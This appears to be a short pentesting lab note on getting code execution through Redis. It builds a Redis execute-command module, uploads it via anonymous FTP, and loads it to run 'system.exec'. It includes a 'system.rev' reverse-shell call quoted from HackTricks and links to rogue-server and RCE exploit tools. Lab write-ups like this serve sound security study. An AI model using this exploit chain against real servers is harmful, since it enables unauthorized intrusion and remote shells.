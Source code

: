 # Redis

You can exploit **Redis Execute Module** to get the initial foothold. 

[https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git)

For instance, you could load the module in redis and use to to run commands with `system.exec`.

```jsx
┌──(root㉿kali)-[~/pg/practice/sybaris/RedisModules-ExecuteCommand]
└─# make
make -C ./src
make[1]: Entering directory '/root/pg/practice/sybaris/RedisModules-ExecuteCommand/src'
make -C ../rmutil
make[2]: Entering directory '/root/pg/practice/sybaris/RedisModules-ExecuteCommand/rmutil'
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o util.o util.c
-- snip -- 

└─# ftp anonymous@192.168.126.93 
Connected to 192.168.126.93.
220 (vsFTPd 3.0.2)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put ./module.so

└─$ redis-cli -h 192.168.91.93
192.168.91.93:6379> module load /var/ftp/pub/module.so
OK                                        
192.168.91.93:6379> system.exec "id"
"uid=1000(pablo) gid=1000(pablo) groups=1000(pablo)\n"
```

from [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#load-redis-module)

```jsx
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.exec "whoami"
"root\n"
127.0.0.1:6379> system.rev 127.0.0.1 9999
```

Can also get code execution through redis Rogue server Redis(<=5.0.5).

[https://github.com/n0b0dyCN/redis-rogue-server.git](https://github.com/n0b0dyCN/redis-rogue-server.git)

Redis 4.x/5.x RCE:

[https://github.com/Ridter/redis-rce.git](https://github.com/Ridter/redis-rce.git)

[6379 - Pentesting Redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce)